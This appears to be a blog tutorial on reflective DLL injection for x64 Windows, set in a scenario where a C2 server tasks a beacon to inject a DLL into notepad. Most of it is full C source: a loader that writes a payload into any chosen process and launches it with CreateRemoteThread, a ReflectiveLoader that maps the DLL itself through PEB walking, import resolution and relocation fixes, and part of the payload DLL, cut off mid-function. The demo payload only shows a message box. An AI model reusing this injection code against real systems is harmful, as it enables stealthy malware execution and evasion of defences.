








Overview: Continuing from the previous blog post about DLL injection, we have another technique to load DLL into a process. By reflecting its bytes into target process's memory.
This sample was created on the x64 architecture.
Understanding how this technique works

In example context assume that we already injected Beacon.exe in the target PC. The C2 give this beacon a task to use this technique and load a DLL into notepad process and open the message box.
Some case, The beacon creates another process to do this task, avoid being detected and terminated. In this Lab assume that The loader was created by The Beacon
When C2 commands,
The beacon downloads a bunch
of raw bytes from C2.
Initial Loader process and
load all bytes into
The Loader process's memory.
Then The Loader writes all
this bytes into target process's memory.
Finds
the address of ReflectiveLoader
in bunch of raw bytes. Creates a thread with the entry for
ReflectiveLoader
Inside target process's memory, ReflectiveLoader resolves all bytes in target process's memory to new allocate memory and call to the entry which is DLLMain
So now we begin with the The loader, which we assumed that created from beacon At first, The Loader need to find the ReflectiveLoader() offset in payload that loaded into its memory.
The picture below shows how can we identify ReflectiveLoader offset

To double check, we plus the offset with the base address of payload then we have the address of ReflectiveLoader in memory of The Loader

Code demonstrated as below:
DWORD_PTR rva_to_offset(DWORD_PTR rva, DWORD_PTR base) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base;
if (!dos_header) return 0;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base + dos_header->e_lfanew);
WORD number_of_sections = nt_header->FileHeader.NumberOfSections;
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(nt_header);
if (rva < section_header->VirtualAddress) {
return rva;
}
for (WORD i = 0; i < number_of_sections; i++) {
DWORD_PTR section_va = section_header[i].VirtualAddress; // start address of section
DWORD_PTR section_raw = section_header[i].PointerToRawData; // real address on disk
DWORD_PTR section_size = section_header[i].SizeOfRawData; // "length" of the section
if (rva >= section_va && rva < section_va + section_size) { // check if rva is between start and length
return (rva - section_va) + section_raw; // rva of element minus VA then we have distance from element to start address of section
// then plus with real address on disk to actually have offset
}
}
return 0;
}
// get the module exported in export table
DWORD_PTR get_reflective_loader_offset(DWORD_PTR base, LPCSTR module_name) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base;
if (!dos_header) return 0;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base + dos_header->e_lfanew);
IMAGE_DATA_DIRECTORY exports_data_directory = nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
PIMAGE_EXPORT_DIRECTORY export_directory = (PIMAGE_EXPORT_DIRECTORY)( base + rva_to_offset(exports_data_directory.VirtualAddress,base)); // base of raw bytes + offset we calculated
DWORD number_of_function_name = export_directory->NumberOfNames;
PDWORD export_function_address = (PDWORD)(rva_to_offset(export_directory->AddressOfFunctions, base) + base);
PDWORD export_function_name_address = (PDWORD)(rva_to_offset(export_directory->AddressOfNames, base) + base);
PWORD export_ord = (PWORD)(rva_to_offset(export_directory->AddressOfNameOrdinals, base) + base);
for (WORD i = 0; i < number_of_function_name; i++) {
char* function_name = (char*)(rva_to_offset(export_function_name_address[i], base) + base);
if (strcmp(function_name, module_name) == 0) {
DWORD function_rva = export_function_address[export_ord[i]];
return rva_to_offset(function_rva, base);
}
}
}
// assume that file_buf (base address of payload in loader process's memory) is the payloads receive from beacon
DWORD_PTR reflective_loader_offset = get_reflective_loader_offset((DWORD_PTR)file_buf, "ReflectiveLoader");Next The Loader attachs to target process and allocates memory in target process. Then plus the ReflectiveLoader offset with the base address of new memory in target process to get the ReflectiveLoader address in target proccess's memory
DWORD old_protect;
remote_buf = VirtualAllocEx(handle_process, NULL, file_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (!remote_buf) {
DWORD error = GetLastError();
printf("failed to allocate memory. Error code: %lu\n", error);
return 0;
};
if (!WriteProcessMemory(handle_process, remote_buf, file_buf, file_size, NULL)) {
DWORD error = GetLastError();
printf("failed to write memory error code: %d", error);
return 0;
}
VirtualProtectEx(handle_process, remote_buf, file_size, PAGE_EXECUTE_READ, &old_protect);
DWORD_PTR reflective_loader_address = reflective_loader_offset + (DWORD_PTR)remote_buf;In the picture below, remote_buf presents for Image Base of new memory
. Go to offset 0x410 is the ReflectiveLoader address
Then The Loader create thread in target process with entry for ReflectiveLoader() address. Finally, when the reflection is done, free the memory in target process.
handle_thread = CreateRemoteThread(handle_process, NULL, NULL, (LPTHREAD_START_ROUTINE)reflective_loader_address, NULL, NULL, NULL);
WaitForSingleObject(handle_thread, INFINITE);
VirtualFreeEx(handle_process, remote_buf, 0, MEM_RELEASE);
Result shown that we successfully set the entry point to ReflectiveLoader() address. As picture below:

Below is the full source code of The Loader with some minor upgrade to dynamic inject
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
DWORD_PTR rva_to_offset(DWORD_PTR rva, DWORD_PTR base) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base;
if (!dos_header) return 0;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base + dos_header->e_lfanew);
WORD number_of_sections = nt_header->FileHeader.NumberOfSections;
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(nt_header);
if (rva < section_header->VirtualAddress) {
return rva;
}
for (WORD i = 0; i < number_of_sections; i++) {
DWORD_PTR section_va = section_header[i].VirtualAddress; // start address of section
DWORD_PTR section_raw = section_header[i].PointerToRawData; // real address on disk
DWORD_PTR section_size = section_header[i].SizeOfRawData; // "length" of the section
if (rva >= section_va && rva < section_va + section_size) { // check if rva is between start and length
return (rva - section_va) + section_raw; // rva of element minus VA then we have distance from element to start address of section
// then plus with real address on disk to actually have offset
}
}
return 0;
}
// get the module exported in export table
DWORD_PTR get_reflective_loader_offset(DWORD_PTR base, LPCSTR module_name) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base;
if (!dos_header) return 0;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base + dos_header->e_lfanew);
IMAGE_DATA_DIRECTORY exports_data_directory = nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
PIMAGE_EXPORT_DIRECTORY export_directory = (PIMAGE_EXPORT_DIRECTORY)( base + rva_to_offset(exports_data_directory.VirtualAddress,base)); // base of raw bytes + offset we calculated
DWORD number_of_function_name = export_directory->NumberOfNames;
PDWORD export_function_address = (PDWORD)(rva_to_offset(export_directory->AddressOfFunctions, base) + base);
PDWORD export_function_name_address = (PDWORD)(rva_to_offset(export_directory->AddressOfNames, base) + base);
PWORD export_ord = (PWORD)(rva_to_offset(export_directory->AddressOfNameOrdinals, base) + base);
for (WORD i = 0; i < number_of_function_name; i++) {
char* function_name = (char*)(rva_to_offset(export_function_name_address[i], base) + base);
if (strcmp(function_name, module_name) == 0) {
DWORD function_rva = export_function_address[export_ord[i]];
return rva_to_offset(function_rva, base);
}
}
}
void snap_all_process() {
HANDLE handle_snapshot_process;
PROCESSENTRY32W process_entry;
process_entry.dwSize = sizeof(PROCESSENTRY32W);
handle_snapshot_process = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (!handle_snapshot_process) return;
if (Process32First(handle_snapshot_process, &process_entry)) {
do {
wprintf(L"PID: %d | %ls\n",
process_entry.th32ProcessID,
process_entry.szExeFile);
} while (Process32Next(handle_snapshot_process, &process_entry));
}
else return;
}
int inject(LPVOID file_buf, DWORD file_size, HANDLE file_handle, DWORD PID) {
HANDLE handle_process;
HANDLE handle_thread;
LPVOID remote_buf = NULL;
// assume that file_buf is the payloads receive from beacon
DWORD_PTR reflective_loader_offset = get_reflective_loader_offset((DWORD_PTR)file_buf, "ReflectiveLoader");
handle_process = OpenProcess(PROCESS_ALL_ACCESS, NULL, PID);
if (!handle_process) {
printf("failed to open process");
return 0;
}
DWORD old_protect;
remote_buf = VirtualAllocEx(handle_process, NULL, file_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (!remote_buf) {
DWORD error = GetLastError();
printf("failed to allocate memory. Error code: %lu\n", error);
return 0;
};
if (!WriteProcessMemory(handle_process, remote_buf, file_buf, file_size, NULL)) {
DWORD error = GetLastError();
printf("failed to write memory error code: %d", error);
return 0;
}
VirtualProtectEx(handle_process, remote_buf, file_size, PAGE_EXECUTE_READ, &old_protect);
DWORD_PTR reflective_loader_address = reflective_loader_offset + (DWORD_PTR)remote_buf;
printf("injection located at %p\n", ((void*)(reflective_loader_address - reflective_loader_offset)));
printf("reflective loader located at %p\n", (void*)reflective_loader_address);
handle_thread = CreateRemoteThread(handle_process, NULL, NULL, (LPTHREAD_START_ROUTINE)reflective_loader_address, NULL, NULL, NULL);
if (!file_handle) {
DWORD error = GetLastError();
printf("failed to create remote thread: %d", error);
return 0;
}
WaitForSingleObject(handle_thread, INFINITE);
DWORD_PTR execute_dll_base;
GetExitCodeThread(handle_thread, (LPDWORD)&execute_dll_base);
VirtualFreeEx(handle_process, remote_buf, 0, MEM_RELEASE);
if (handle_process) {
CloseHandle(handle_process);
}
if (handle_thread) {
CloseHandle(handle_thread);
}
if (file_handle) {
CloseHandle(file_handle);
}
}
int main(int argc, char* argv[]) {
// read raw byte in dll
HANDLE handle_file = CreateFile(L"D:\\vs_c\\reflective_loader_dll\\x64\\Release\\reflective_loader_dll.dll", GENERIC_READ, 0, NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
if (handle_file == INVALID_HANDLE_VALUE) {
printf("failed to create file");
CloseHandle(handle_file);
return 0;
}
DWORD file_size = GetFileSize(handle_file, NULL);
LPVOID file_buf = HeapAlloc(GetProcessHeap(), 0, file_size);
if (!file_buf) {
HeapFree(GetProcessHeap(), 0, file_buf);
printf("failed to created file buf");
file_buf = NULL;
return 0;
}
if (!ReadFile(handle_file, file_buf, file_size, NULL, NULL)) {
printf("failed to open file");
return 0;
};
INT option;
while (TRUE) {
wprintf_s(L"01. Snap all process\n02.Inject\n");
wprintf_s(L"------------------\n");
wprintf_s(L"Your option: ");
scanf_s("%d", &option);
switch (option) {
case 1: {
snap_all_process();
break;
}
case 2: {
DWORD PID;
wprintf_s(L"Inject to: ");
scanf_s("%d", &PID);
if (!inject(file_buf, file_size, handle_file, PID)) {
wprintf(L"Failed to inject\n");
}
break;
}
default:
return 0;
}
}
return 0;
}
Now its time for ReflectiveLoader to resolve itself in target process's memory

From the position of entry we need to find the PE Header, with the main landmark being the letters MZ.
__declspec(noinline) static DWORD_PTR get_rip() {
return (DWORD_PTR)_ReturnAddress(); // return the value of RIP register
}
__forceinline DWORD_PTR identify_new_base() {
DWORD_PTR rip = get_rip(); // return to location of ReflectiveLoader function
while (true) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)rip;
if (dos_header->e_magic == IMAGE_DOS_SIGNATURE) { // check for the mz
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(rip + dos_header->e_lfanew);
if (nt_header->Signature == IMAGE_NT_SIGNATURE) { // double check with PE signature
break;
}
}
rip--;
}
return rip;
}Before continue, remember that The Loader only copy raw bytes from payload to target process's memory. So we dont have the right PE structure loaded in RAM.

Then we need to allocate new memory region in target process's memory, and copy part by part from current memory created by The Loader to new Image Base(purple)

After reach to the old Image Base(red) of current memory region, we need to resolve some functions to allocate new memory region.
DWORD_PTR dll_base = identify_new_base(); // get the base address of raw in memory
PIMAGE_DOS_HEADER dos_header_raw = (PIMAGE_DOS_HEADER)dll_base;
PIMAGE_NT_HEADERS nt_header_raw = (PIMAGE_NT_HEADERS)(dll_base + dos_header_raw->e_lfanew);
DWORD dll_size = nt_header_raw->OptionalHeader.SizeOfImage; // read from raw
// resolve kernel32 and functions
DWORD_PTR kernel32_base = get_module(kernel32_string); //stack string as before
GETPROCADDRESS p_GetProcAddress = (GETPROCADDRESS)get_proc_address(kernel32_base, get_proc_string);
VIRTUALALLOC p_VirtualAlloc = (VIRTUALALLOC)p_GetProcAddress((HMODULE)kernel32_base, virtual_alloc_string);
// create new memory on target process
LPVOID new_image_base = p_VirtualAlloc(NULL, dll_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
DWORD_PTR base_address = (DWORD_PTR)new_image_base;Then copy each part of raw bytes, begin with PE Headers and define new Image Base(purple)
DWORD size_of_header = nt_header_raw->OptionalHeader.SizeOfHeaders;
//// copy headers from raw byte to new memory
memory_copy(base_address, dll_base, size_of_header);
// define header in new memory
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base_address;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base_address + dos_header->e_lfanew);Copy each sections:
//// copy all sections from raw byte to new memory
DWORD number_of_section = nt_header_raw->FileHeader.NumberOfSections;
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(nt_header_raw);
for (DWORD i = 0; i < number_of_section; i++) {
DWORD_PTR section_on_raw_bytes = dll_base + section_header[i].PointerToRawData;
DWORD_PTR section_on_memory = base_address + section_header[i].VirtualAddress;
if (section_header[i].SizeOfRawData > 0) {
memory_copy(section_on_memory, section_on_raw_bytes, section_header[i].SizeOfRawData);
}
} After we copy all sections into new memory, now we need to fix the rva value to fit new Image Base. Including IAT and Relocation Table
// fix value of function in import table (in new memory)
PIMAGE_DATA_DIRECTORY import_data_directory = &nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
PIMAGE_IMPORT_DESCRIPTOR import_descriptor = (PIMAGE_IMPORT_DESCRIPTOR)(base_address + import_data_directory->VirtualAddress);
LOADLIBRARYA p_LoadLibraryA = (LOADLIBRARYA)p_GetProcAddress((HMODULE)kernel32_base, load_library_string);
while (import_descriptor->Name != NULL) {
HMODULE module_address = p_LoadLibraryA((LPCSTR)(base_address + import_descriptor->Name));
if (module_address) {
PIMAGE_THUNK_DATA function_array = (PIMAGE_THUNK_DATA)(base_address + import_descriptor->FirstThunk);
while (function_array->u1.AddressOfData != NULL) {
if (IMAGE_SNAP_BY_ORDINAL(function_array->u1.Ordinal)) {
LPCSTR function_ord = (LPCSTR)IMAGE_ORDINAL(function_array->u1.Ordinal);
function_array->u1.Function = (DWORD_PTR)p_GetProcAddress(module_address, function_ord);
}
else {
PIMAGE_IMPORT_BY_NAME function_raw = (PIMAGE_IMPORT_BY_NAME)(base_address + function_array->u1.AddressOfData);
function_array->u1.Function = (DWORD_PTR)p_GetProcAddress(module_address, (LPCSTR)function_raw->Name);
}
function_array++; // next thunk (import by name)
}
}
import_descriptor++; // move to next import descriptor
}
// perform image base relocations
IMAGE_DATA_DIRECTORY relocations = nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
DWORD_PTR relocationTable = relocations.VirtualAddress + (DWORD_PTR)base_address;
DWORD relocationsProcessed = 0;
DWORD_PTR deltaImageBase = (DWORD_PTR)base_address - (DWORD_PTR)nt_header->OptionalHeader.ImageBase;
while (relocationsProcessed < relocations.Size)
{
PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)(relocationTable + relocationsProcessed);
relocationsProcessed += sizeof(BASE_RELOCATION_BLOCK);
DWORD relocationsCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)(relocationTable + relocationsProcessed);
for (DWORD i = 0; i < relocationsCount; i++)
{
relocationsProcessed += sizeof(BASE_RELOCATION_ENTRY);
if (relocationEntries[i].Type == 0)
{
continue;
}
DWORD_PTR relocationRVA = relocationBlock->PageAddress + relocationEntries[i].Offset;
DWORD_PTR addressToPatch = 0;
p_ReadProcessMemory(p_GetCurrentProcess(), (LPCVOID)((DWORD_PTR)base_address + relocationRVA), &addressToPatch, sizeof(DWORD_PTR), NULL);
addressToPatch += deltaImageBase;
memory_copy((DWORD_PTR)base_address + relocationRVA, addressToPatch, sizeof(DWORD_PTR));
}
}Change memory page protection to RWX and call the DLLMain to execute then change page protection to NA
VIRTUALPROTECT p_VirtualProtect = (VIRTUALPROTECT)p_GetProcAddress((HMODULE)kernel32_base, virtual_protect_string);
DWORD old_protect;
p_VirtualProtect(new_image_base, dll_size, PAGE_EXECUTE_READWRITE, &old_protect);
DLLENTRY DllEntry = (DLLENTRY)((DWORD_PTR)base_address + nt_header->OptionalHeader.AddressOfEntryPoint);
(*DllEntry)((HINSTANCE)base_address, DLL_PROCESS_ATTACH, 0);
p_VirtualProtect(new_image_base, dll_size, PAGE_NOACCESS, &old_protect);
return (DWORD_PTR)base_address; // Im trying to delete the execute memory but just can not find the way The result shown as gif below:

Full source code of payload (DLL)
#include "pch.h"
#include "reflective_loader.h"
#pragma optimize("", off)
__forceinline size_t wchar_to_char(char* destination, const wchar_t* source, size_t size) {
if (!destination || !source || size == 0) return 0;
size_t i;
for (i = 0; i < size - 1; i++) {
char c = (char)source[i];
if (c >= 'a' && c <= 'z') c -= 32;
destination[i] = c;
if (source[i] == L'\0') {
return i;
}
}
destination[i] = '\0';
return i;
}
__forceinline INT compare_string(const char* str1, const char* str2) {
if (str1 == str2) return 0;
if (!str1 || !str2) return 1;
while (*str1 && (*str1 == *str2)) {
str1++;
str2++;
}
return (INT)(*(unsigned char*)str1 - *(unsigned char*)str2);
}
__forceinline DWORD_PTR get_module(LPCSTR module_name) {
DWORD_PTR kernel32_base = NULL;
PPEB peb = (PPEB)__readgsqword(0x60);
PPEB_LDR_DATA loader = peb->Ldr;
PLIST_ENTRY head = &loader->InMemoryOrderModuleList;
PLIST_ENTRY current_module = head->Flink;
while (current_module != head) {
PLDR_DATA_TABLE_ENTRY_CUSTOM module_entry = CONTAINING_RECORD(current_module, LDR_DATA_TABLE_ENTRY_CUSTOM, InMemoryOrderLinks);
if (module_entry->BaseDllName.Buffer != NULL) {
char module_entry_name[64];
wchar_to_char(module_entry_name, module_entry->BaseDllName.Buffer, 64);
if (compare_string(module_name, module_entry_name) == 0) {
